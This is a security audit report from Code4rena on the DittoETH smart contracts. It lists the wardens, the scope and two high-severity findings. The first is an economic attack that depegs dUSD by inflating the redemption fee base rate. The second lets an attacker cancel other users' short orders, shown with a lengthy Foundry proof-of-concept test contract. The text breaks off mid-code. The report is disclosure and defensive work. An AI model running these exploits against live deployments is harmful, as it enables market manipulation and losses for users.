




# Overview

## About C4

Code4rena (C4) is an open organization consisting of security researchers, auditors, developers, and individuals with domain expertise in smart contracts.

A C4 audit is an event in which community participants, referred to as Wardens, review, audit, or analyze smart contract logic in exchange for a bounty provided by sponsoring projects.

During the audit outlined in this document, C4 conducted an analysis of the DittoETH smart contract system written in Solidity. The audit took place between March 15 — April 5, 2024.

## Wardens

44 Wardens contributed reports to DittoETH:

  1. [klau5](https://code4rena.com/@klau5)
  2. [nonseodion](https://code4rena.com/@nonseodion)
  3. [d3e4](https://code4rena.com/@d3e4)
  4. [00xSEV](https://code4rena.com/@00xSEV)
  5. [samuraii77](https://code4rena.com/@samuraii77)
  6. [Cosine](https://code4rena.com/@Cosine)
  7. [serial-coder](https://code4rena.com/@serial-coder)
  8. [0xbepresent](https://code4rena.com/@0xbepresent)
  9. [Infect3d](https://code4rena.com/@Infect3d)
  10. [ilchovski](https://code4rena.com/@ilchovski)
  11. [Bube](https://code4rena.com/@Bube)
  12. [unix515](https://code4rena.com/@unix515)
  13. [albahaca](https://code4rena.com/@albahaca)
  14. [Rhaydden](https://code4rena.com/@Rhaydden)
  15. [maxim371](https://code4rena.com/@maxim371)
  16. [popeye](https://code4rena.com/@popeye)
  17. [hihen](https://code4rena.com/@hihen)
  18. [hunter\_w3b](https://code4rena.com/@hunter_w3b)
  19. [Sathish9098](https://code4rena.com/@Sathish9098)
  20. [roguereggiant](https://code4rena.com/@roguereggiant)
  21. [Pechenite](https://code4rena.com/@Pechenite) ([Bozho](https://code4rena.com/@Bozho) and [radev\_sw](https://code4rena.com/@radev_sw))
  22. [oualidpro](https://code4rena.com/@oualidpro)
  23. [slvDev](https://code4rena.com/@slvDev)
  24. [falconhoof](https://code4rena.com/@falconhoof)
  25. [0xSecuri](https://code4rena.com/@0xSecuri)
  26. [LinKenji](https://code4rena.com/@LinKenji)
  27. [foxb868](https://code4rena.com/@foxb868)
  28. [XDZIBECX](https://code4rena.com/@XDZIBECX)
  29. [Evo](https://code4rena.com/@Evo)
  30. [Bigsam](https://code4rena.com/@Bigsam)
  31. [Bauchibred](https://code4rena.com/@Bauchibred)
  32. [fouzantanveer](https://code4rena.com/@fouzantanveer)
  33. [SAQ](https://code4rena.com/@SAQ)
  34. [kaveyjoe](https://code4rena.com/@kaveyjoe)
  35. [emerald7017](https://code4rena.com/@emerald7017)
  36. [0xbrett8571](https://code4rena.com/@0xbrett8571)
  37. [JcFichtner](https://code4rena.com/@JcFichtner)
  38. [clara](https://code4rena.com/@clara)
  39. [cheatc0d3](https://code4rena.com/@cheatc0d3)
  40. [pfapostol](https://code4rena.com/@pfapostol)
  41. [Topmark](https://code4rena.com/@Topmark)
  42. [Rolezn](https://code4rena.com/@Rolezn)
  43. [caglankaan](https://code4rena.com/@caglankaan)

This audit was judged by [hansfriese](https://code4rena.com/@hansfriese).

Final report assembled by [thebrittfactor](https://twitter.com/brittfactorC4).

# Summary

The C4 analysis yielded an aggregated total of 16 unique vulnerabilities. Of these vulnerabilities, 7 received a risk rating in the category of HIGH severity and 9 received a risk rating in the category of MEDIUM severity.

Additionally, C4 analysis included 18 reports detailing issues with a risk rating of LOW severity or non-critical.

All of the issues presented here are linked back to their original finding.

# Scope

The code under review can be found within the [C4 DittoETH repository](https://github.com/code-423n4/2024-03-dittoeth), and is composed of 12 smart contracts written in the Solidity programming language and includes 1961 lines of Solidity code.

# Severity Criteria

C4 assesses the severity of disclosed vulnerabilities based on three primary risk categories: high, medium, and low/non-critical.

High-level considerations for vulnerabilities span the following key areas when conducting assessments:

- Malicious Input Handling
- Escalation of privileges
- Arithmetic
- Gas use

For more information regarding the severity criteria referenced throughout the submission review process, please refer to the documentation provided on [the C4 website](https://code4rena.com), specifically our section on [Severity Categorization](https://docs.code4rena.com/awarding/judging-criteria/severity-categorization).

# High Risk Findings (7)
## [[H-01] A successfully disputed redemption proposal has still increased the redemption fee base rate; exploit to depeg dUSD](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/274)
*Submitted by [d3e4](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/274)*

Redemptions may not be incentivized to increase the value of dUSD. Furthermore, this may be deliberately induced to prevent a falling dUSD from repegging, ultimately causing dUSD to fully depeg and crash. The motivations for this attack could be anything from pure spite (perhaps from a competitor)

### Root cause and summary

The most fundamental root cause of this issue and exploit is that the base rate in the redemption fee is increased when a redemption is proposed, but not restored (decreased) if the redemption is successfully disputed.

When dUSD is trading below the dollar, redemptions are needed to restore the peg. The redemption fee regulates the incentive to redeem dUSD. So if the redemption fee is increased, without contributing to the peg restoration by decreasing the supply of dUSD, the peg restoration mechanism is impeded and sufficient redemptions will not happen. A sufficiently high redemption fee will make any redemption a loss for the redeemer, which means that the peg will not be restored.

This issue becomes viable as a direct exploit because of multiple factors reducing its cost to the attacker:

1. The attacker can avoid paying the penalty by disputing his own proposal (using a different account).
2. The redemption fee contains an added base fee of 0.5% which reduces the required amount to propose, on which the fee is paid.
3. A. The total redemption fee decreases, down to almost a half, if the proposed amount is split over several redemption proposals.

    B. By splitting the total proposed amount the attacker only needs to escrow dUSD for one such part (at a time), which minimizes his own loss on his devalued dUSD.
4. The redemption fee is proportional to the collateral that would be redeemed, which is capped to the short record's collateral balance; whereas the base rate is increased based on the amount proposed, which is not reduced accordingly. This can only be leveraged if there exists an undercollateralized short record. But if there is, this can be leveraged to make this exploit essentially for free for about 48 hours.

With the possible exception of 1 above, all of the above are issues in their own right, especially 4; which is therefore, also reported separately. The impact of 2 and 3 is subject to the model used for how (quantitatively) redemptions restore the peg,; therefore, is discussed below rather than reported separately.

### Proof of Concept

The goal of this exploit is to cause a persistent and complete loss of incentive to redeem dUSD, such that a dUSD trading below the dollar fails to recover its peg.

There is some level below which dUSD is critically depegged. This is at least at the level where it becomes undercollateralized. For example, if the total collateral ratio is 1.25, this would happen if dUSD trades at `$0.80`. However, there is also a psychological and interfacing aspect. Since dUSD is supposed to maintain a 1:1 peg, if dUSD persistently trades at `$0.90` or even `$0.95`, users might become suspicious, lose interest, or deem dUSD unsuitable or broken; which would cause it to further depeg. Therefore, any significant depeg will become critical if it is also persistent over time.

It is assumed that there are always market forces (randomly) pushing the value of dUSD down, which is why the peg restoration mechanism through redemptions is necessary. If redemptions are prevented it is therefore assumed that these forces will take over and keep pushing dUSD downwards.

A complete collapse of dUSD is not necessarily the goal. This could also be profited from as a kind of market manipulation where the attacker crashes the price to buy cheap dUSD, and then lets the redemption incentive back in and redeem his cheaply gotten dUSD (for real this time).
The exploit will thus be considered successful if redemptions are prevented throughout the time it takes dUSD to drop from `$1.00` to (e.g.) `$0.95` and then keep preventing redemptions for some time.

The redemption fee is `redemptionRate * redemptionAmount` (`redemptionAmount` in USD value or dUSD equivalently). The profit on a redemption is `(1 - price) * redemptionAmount - redemptionRate * redemptionAmount`. Thus, whenever `redemptionRate >= (1 - price)` there is no profit to be made on redemptions. This is the redemption rate we want to maintain.

When a redemption is proposed [the redemption fee is calculated](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L204). [This updates the `baseRate`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L399). When a redemption proposal is [disputed](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L224-L301) nothing is done to the `baseRate`. This is the root cause of this issue.

When a redemption proposal is disputed [the redemption proposer gets back the entire amount proposed minus the penalty](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L296). This means that if the disputer and the proposer is the same person (using different addresses, since they cannot be the same) then the penalty is not lost. The attack would be performed as a proposal atomically followed by a dispute. This shows issue 1 in the list above.

The redemption proposer still has to [pay the redemption fee](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L209), however. We will now investigate how much this would cost the attacker.

Ignoring the decay for now, when an amount `a` is proposed [the base rate increases by `a / (2 * totalSupply)`](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L391-L395), where `totalSupply` is the total supply of dUSD, i.e. the total `ercDebt`. Since [a base rate of 0.5% is always added](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L401) (issue 2 above), we only need to keep the base rate at `1 - price - 0.005`.

Assuming an initial base rate of `0`, to bring the base rate up to `1 - price - 0.005` we would then propose `a = (1 - price - 0.005) * 2 * totalSupply`. The redemption fee would then be `(1 - price) * (1 - price - 0.005) * 2 * totalSupply`. For `price = 0.95` this is `0.0045 * totalSupply`.

If we split the amount `a` into `n` smaller parts each of size `a/n` then the base rate will increase `(a/n) / (2 * totalSupply)` each time (so we still need to propose the same total amount), but the redemption fee on the `k`th time will only be `a/n * (k * (a/n) / (2 * totalSupply) + 0.005)`. Note that if each proposals is immediately disputed then `totalSupply` remains constant; otherwise, `totalSupply` decreases slightly each time such that the redeemed fraction increases such that we can propose less overall for even lower fees.

Summed over all `k` this is `a^2 * n * (n+1) / (n^2 * 4 * totalSupply) + 0.005 * a`. The limit for high `n` is `a * (a / (4 * totalSupply) + 0.005 * a)`. Substituting `a` from above we get that the total fees are `((1 - price)^2 - 2.5e-5) * totalSupply`, which is almost half of the single proposal cost. For `price = 0.95` this is `0.002475 * totalSupply`.

Let's now consider the cost of working against the decay of the base rate. After `t` hours the base rate has decayed by a factor `2^(-t/12)`. In order to bring the redemption rate back up to `1 - price` we need to propose another `(1 - price - (1 - price) * 2^(-t/12)) * 2 * totalSupply`, on which we pay in fees `(1 - price)^2 * (1 - 2^(-t/12)) * 2 * totalSupply`. In the best case we only need to do this very rarely, and the average cost per hours then tends to zero. In the worst case, if we have to propose continuously, the limit is `(1 - price)^2 * 2 * totalSupply * ln(2)/12` per hour. For `price = 0.95` this is `0.00029 * totalSupply` in the worst case.

Finally let's discuss issue 4. If the short record holds less collateral than can cover the proposed amount, then [it is capped to whatever it does hold](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L117-L121). The proposed amount, however, [is not reduced](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L122-L124). These are [passed to the calculation of the redemption fee](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L204), and it is [the collateral redeemed that is multiplied by the redemption rate](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L402), while [the base rate is increased based on the amount proposed (`ercDebtRedeemed`)](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L392-L394). This means that we pay a smaller fee than we should.
Once there is an undercollateralized short record we can first partially redeem it so that almost no (or zero?) collateral remains. This decreases the collateral to almost `0`, while some debt still remains.

Performing our attack with two such short records, we can make and dispute proposals where the fees are almost zero but still increase the base rate each time. We can now blow up the redemption rate to the maximum 100% essentially for free. This will decay down to 6.25% in 48 hours, which is sufficient to prevent redemptions down to a price of `0.9325`. These severely undercollateralized short records may of course be immediately proposed and claimed by anyone, but it is not necessarily likely that anyone will do that, since there is no profit to be made. We might therefore be able to repeat this every 48 hours (or more often) and maintain an arbitrarily high redemption rate almost for free.

### Bonus note on issues 2 and 3

The redemption fee mechanism is clearly intended to be optimal for redemption amounts which reduce the supply in accordance with the [Quantity Theory of Money](https://en.wikipedia.org/wiki/Quantity_theory_of_money). However, the added 0.5% fee disrupts this and makes redemption optimal for a amount insufficient to restore the peg. The intention behind the 0.5% is probably to not allow free redemptions and to bring in some profit to the protocol, but it does not make sense to always add it. It should then be only a lower limit.

Furthermore, this optimality is only valid under the assumption that redemptions are proposed in wholes, and not split up. As seen above, more can profitably be redeemed if the redemption is split in many small parts. This causes redemptions to overshoot, causing the price to increase above `$1.00` (as per QTM). This is not as straightforward to fix, but one solution might be to only allow sufficiently large proposed amounts.

It should also of course be possible to redesign the peg stabilization mechanism, by some direct reference to the deviation from the peg, since this deviation is explicitly know through the oracle price.

### Recommended Mitigation Steps

Make sure the base rate is unaffected by a proposal which is successfully disputed. It might be tricky to account for the decay if attempting to later subtract when disputing. A possible solution might be to simply calculate and apply the new rate only when a proposal is successfully claimed.

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/274#issuecomment-2043317769)**

***

## [[H-02] An attacker can cancel other people's short orders](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/178)
*Submitted by [00xSEV](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/178)*

`LibSRUtil.transferShortRecord` does not check the owner of `nft.shortOrderId` before canceling it. `shortOrderId`s are reused after the order is canceled.

An attacker can create a state for an NFT where the short record's status is `SR.PartialFill`, but `nft.shortOrderId` is already reassigned to another user, yet still set in the attacker's NFT. This will make the system think that it needs to cancel `nft.shortOrderId`, even though it belongs to another user already and does not reference the original order.

### Vulnerability Details

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L134-L136>

```solidity
if (short.status == SR.PartialFill) {
            LibOrders.cancelShort(asset, nft.shortOrderId);
}
```

For the example, we will use ids that would be used by a new asset (starting ids, 2 for `shortRecord` and 100 for short order).

Steps for the attacker, the simplest attack (see `test1` function in PoC too):

1. Create a short record that will be partially filled:
    - The attacker can create a limit short + market bid in the same transaction. The market bid must not fully cover the limit short.
2. Then, possibly in the same transaction, they:
    - `mintNFT`
        - `shortRecordId` = 2
        - `shortOrderId` = 100
            -  short order's linked list state:  `HEAD <-> HEAD <-> 100 <-> TAIL`.
    - Cancel the short.
        - Short order's linked list state `HEAD <-> 100 <-> HEAD <-> TAIL`.
    - Cancel the short record with id 2 (`exitShortErcEscrowed` in PoC).
3. A victim creates a limit short:
    - `shortOrderId` is 100 again (reused), but it is a different order, it belongs to the victim now.
    - Short order's linked list state `HEAD <-> HEAD <-> 100 <-> TAIL`.
4. The attacker decides to cancel it.
5. The attacker creates a new short record (the same way as in step 1). Note that because the last short record with `id=2` was canceled its id will be reused.
    - Even though we canceled the short record in step 2.3, it is now recreated. So, the new record's id is 2 again and the `.status` is `SR.PartialFill`.
6. Attacker does `transferFrom`:
    - All the checks are passed because the short record with id is legit, the status is `SR.PartialFill`, and the record belongs to the attacker.
    - The code will call `LibOrders.cancelShort(asset, nft.shortOrderId);`.
        - `nft.shortOrderId` is 100.
    - The short order with id 100 is canceled (victim's order).

The attacker can also create many NFTs and choose which orders to cancel as they wish (See the second function in PoC). The attacker can then create the NFTs again and start the attack again (See the third PoC).

It's also possible to have several NFTs on the same address or different addresses with the same `nft.shortOrderId`. It may also lead to accidental cancellation even if a user is not malicious.

### Impact

The attacker has full control over which short orders appear on the order book; they can censor orders, manipulate the price by canceling orders with a low price.

It's possible to reduce other's rewards by canceling shorts just before the rewards are due (Token yield is provided only after some time on the order book, see [here](https://dittoeth.com/technical/yield#from-matching)).

The platform is unusable because short orders can be canceled at any time arbitrarily by an attacker, or several attackers/bad actors, who do not like some short orders.

### Proof of Concept

`forge test  -vvv  --match-path contracts/AANftAttack.sol`

<details>

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity 0.8.21;

import "contracts/libraries/LibOrders.sol";
import {Test} from "forge-std/Test.sol";
import {OBFixture} from "test/utils/OBFixture.sol";
import {console} from "contracts/libraries/console.sol";
import {IDiamond} from "interfaces/IDiamond.sol";
import "contracts/libraries/AppStorage.sol";
import "contracts/libraries/Constants.sol";
import "contracts/interfaces/IDiamondCut.sol";
import "contracts/libraries/LibAsset.sol";
import {U256, U88, U80} from "contracts/libraries/PRBMathHelper.sol";
import {TestTypes} from "test/utils/TestTypes.sol";

import {console2} from "forge-std/console2.sol";


contract AppStorageReader {
    function minAskEth(address asset) external view returns (uint) {
        return LibAsset.minAskEth(asset);
    }

    function initialCR(address asset) external view returns (uint) {
        return LibAsset.initialCR(asset);
    }

    function minShortErc(address asset) external view returns (uint) {
        return LibAsset.minShortErc(asset);
    }

    function getBid(address asset, uint16 id) external view returns (STypes.Order memory) {
        return appStorage().bids[asset][id];
    }

    function getShort(address asset, uint16 id) external view returns (STypes.Order memory) {
        return appStorage().shorts[asset][id];
    }

    function getTokenIdCounter() external view returns (uint40) {
        return appStorage().tokenIdCounter;
    }
}

contract AANftAttack is OBFixture {
    using U256 for uint256;
    using U88 for uint88;
    using U80 for uint80;


    bytes4[] internal appStorageReaderSelectors = [
        AppStorageReader.minAskEth.selector,
        AppStorageReader.initialCR.selector,
        AppStorageReader.getBid.selector,
        AppStorageReader.getShort.selector,
        AppStorageReader.getTokenIdCounter.selector,
        AppStorageReader.minShortErc.selector
    ];
    IDiamondCut.FacetCut[] public newCut;


    // Shows that an attacker can cancel someone else's order, simplified, only one order
    function test1() external {
        _addAppStorageReaderToDiamond();

        address attacker = address(0x5a9a88bD94c8410243B0c04018811b8cA4D09D55);
        address victim = address(0x0537B70dc9F255c76AE6E583D3D282fEE96E1E84);

        fundLimitShort( DEFAULT_PRICE, DEFAULT_AMOUNT, attacker ); 
        fundMarketBid( DEFAULT_PRICE, DEFAULT_AMOUNT / 10, attacker );

        vm.startPrank(attacker);
            diamond.mintNFT( asset, C.SHORT_STARTING_ID, C.STARTING_ID);
            cancelShort(C.STARTING_ID);
        vm.stopPrank();

        STypes.ShortRecord memory shortRecord = getShortRecord(attacker, C.SHORT_STARTING_ID);
        uint88 amount = shortRecord.ercDebt;
        // Deletes the last shortRecord
        exitShortErcEscrowed(C.SHORT_STARTING_ID, amount, attacker);
        
        fundLimitShort( DEFAULT_PRICE - 1, DEFAULT_AMOUNT * 99, victim ); 

        // Creates new shortRecord
        fundLimitShort( DEFAULT_PRICE, DEFAULT_AMOUNT, attacker ); 
        fundMarketBid( DEFAULT_PRICE, DEFAULT_AMOUNT / 10, attacker );
        // _logShortOrders();

        vm.prank(attacker);
        // You can comment this line to make sure cancelShort will not revert
        diamond.transferFrom(attacker, attacker, 1);

        // _logShortRecords(attacker);
        // _logShortOrders();

        vm.prank(victim);
        vm.expectRevert(Errors.NotActiveOrder.selector);
        cancelShort(C.STARTING_ID);
    }

    // Shows that an attacker can cancel arbitrary orders, more complex
    function test2() external {
        _addAppStorageReaderToDiamond();

        // Random addresses, can be indefinite
        address[3] memory attackerAddresses = [
            0x5a9a88bD94c8410243B0c04018811b8cA4D09D55,
            0x12e9757fB4a2990aDaf10A6ca8C7085C06cF7173,
            0x9A2f3C59E8CF1f7c0e514D7f22B37BA2E58CF737
        ];
        address victim = address(0x0537B70dc9F255c76AE6E583D3D282fEE96E1E84);

        for (uint8 i; i < attackerAddresses.length; i++){
            // These two lines create a ShortRecord
            // Price decreases with each step to make a new order the first to be filled, 
            // ensuring that every fill (market bid) does not go to the first short order.
            // Price is higher than default to be > oracle price and be filled
            fundLimitShort( DEFAULT_PRICE + 100 - i, DEFAULT_AMOUNT, attackerAddresses[i] ); 
            fundMarketBid( DEFAULT_PRICE + 100, DEFAULT_AMOUNT / 10, attackerAddresses[i] );

            vm.prank(attackerAddresses[i]);
            diamond.mintNFT( asset, C.SHORT_STARTING_ID, C.STARTING_ID + i);
        }

        for (uint8 i; i < attackerAddresses.length; i++){
            vm.prank(attackerAddresses[i]);
            cancelShort(C.STARTING_ID + i);

            STypes.ShortRecord memory shortRecord = getShortRecord(attackerAddresses[i], C.SHORT_STARTING_ID);
            uint88 amount = shortRecord.ercDebt;
            exitShortErcEscrowed(C.SHORT_STARTING_ID, amount, attackerAddresses[i]);
        }

        // Empty
        console.log("__Before victim creates orders (empty):");
        _logShortOrders();

        // +111, +222, +333 are used to differentiate between orders in the log output.
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 111, victim ); 
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 222, victim ); 
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 333, victim ); 

        // 3 victim's orders
        console.log("__After victim creates orders (3 orders):");
        _logShortOrders();

        for (uint8 i; i < attackerAddresses.length; i++){
            // Skip the second one just to demonstrate that one can cancel arbitrary
            if (i == 1) continue;

            // Create shorts that will be partially filled, to create shortRecords
            // We need it to replace deleted/closed records with id C.SHORT_STARTING_ID
            // with a new one. It will set their status to PartiallyFilled
            fundLimitShort( DEFAULT_PRICE + 100 - i, DEFAULT_AMOUNT + 4444 + i, attackerAddresses[i] ); 
            fundMarketBid( DEFAULT_PRICE + 100, DEFAULT_AMOUNT / 10, attackerAddresses[i] );
            
            vm.prank(attackerAddresses[i]);
            diamond.transferFrom(attackerAddresses[i], attackerAddresses[i], 1 + i);
        }

        console.log("__After the attack (2 attackers orders followed by a victim's one):");
        _logShortOrders();
    }

    // Shows that an attacker can repeat the attack indefinitely
    function test3() external {
        _addAppStorageReaderToDiamond();

        // Random addresses, can be indefinite
        address[3] memory attackerAddresses = [
            0x5a9a88bD94c8410243B0c04018811b8cA4D09D55,
            0x12e9757fB4a2990aDaf10A6ca8C7085C06cF7173,
            0x9A2f3C59E8CF1f7c0e514D7f22B37BA2E58CF737
        ];
        address attackerAdditionalAddress = 0xefa7092E09664743518177Fc740f257d3C17D348;
        address victim = address(0x0537B70dc9F255c76AE6E583D3D282fEE96E1E84);

        for (uint8 i; i < attackerAddresses.length; i++){
            // These two lines create a ShortRecord
            // Price decreases with each step to make a new order the first to be filled, 
            // ensuring that every fill (market bid) does not go to the first short order.
            // Price is higher than default to be > oracle price and be filled
            fundLimitShort( DEFAULT_PRICE + 100 - i, DEFAULT_AMOUNT, attackerAddresses[i] ); 
            fundMarketBid( DEFAULT_PRICE + 100, DEFAULT_AMOUNT / 10, attackerAddresses[i] );

            vm.prank(attackerAddresses[i]);
            diamond.mintNFT( asset, C.SHORT_STARTING_ID, C.STARTING_ID + i);
        }

        for (uint8 i; i < attackerAddresses.length; i++){
            vm.prank(attackerAddresses[i]);
            cancelShort(C.STARTING_ID + i);

            STypes.ShortRecord memory shortRecord = getShortRecord(attackerAddresses[i], C.SHORT_STARTING_ID);
            uint88 amount = shortRecord.ercDebt;
            exitShortErcEscrowed(C.SHORT_STARTING_ID, amount, attackerAddresses[i]);
        }

        // Empty
        console.log("__Before victim creates orders (empty):");
        _logShortOrders();

        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 111, victim ); 
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 222, victim ); 
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 333, victim ); 

        // 3 victim's orders
        console.log("__After victim creates orders (3 orders):");
        _logShortOrders();

        for (uint8 i; i < attackerAddresses.length; i++){
            // Create shorts that will be partially filled, to create shortRecords
            // We need it to replace deleted/closed records with id C.SHORT_STARTING_ID
            // with a new one. It will set their status to PartiallyFilled
            fundLimitShort( DEFAULT_PRICE + 100 - i, DEFAULT_AMOUNT + 4444 + i, attackerAddresses[i] ); 
            fundMarketBid( DEFAULT_PRICE + 100, DEFAULT_AMOUNT / 10, attackerAddresses[i] );
            
            vm.prank(attackerAddresses[i]);
            diamond.transferFrom(attackerAddresses[i], attackerAddresses[i], 1 + i);
        }
        console.log("__After the attack (3 attackers orders):");
        _logShortOrders();
        // 102----HEAD--101--100--103  <--short order ids from the linked list of orders
        //Canceled--H----2----1----0   <--attacker ids from attackerAddresses
        // We want 102--101--100--HEAD--103, so we cancel 2->1->0
        // (A canceled order is placed immediately to the left of HEAD)
        vm.prank(attackerAddresses[2]);
        cancelShort(101);
        vm.prank(attackerAddresses[1]);
        cancelShort(100);
        vm.prank(attackerAddresses[0]);
        cancelShort(103);

        // We got 102--101--100--103--HEAD
        // Then create an order to remove 103 and get to a desired state
        fundLimitShort( DEFAULT_PRICE + 1e6, DEFAULT_AMOUNT + 999, attackerAdditionalAddress); 
        console.log("__Ready for another attack (102--101--100--HEAD--103):");
        _logShortOrders(); // We got 102--101--100--HEAD--103

        for (uint8 i; i < attackerAddresses.length; i++){
            fundLimitShort( DEFAULT_PRICE + 100 - i, DEFAULT_AMOUNT, attackerAddresses[i] ); 
            fundMarketBid( DEFAULT_PRICE + 100, DEFAULT_AMOUNT / 10, attackerAddresses[i] );

            vm.prank(attackerAddresses[i]);
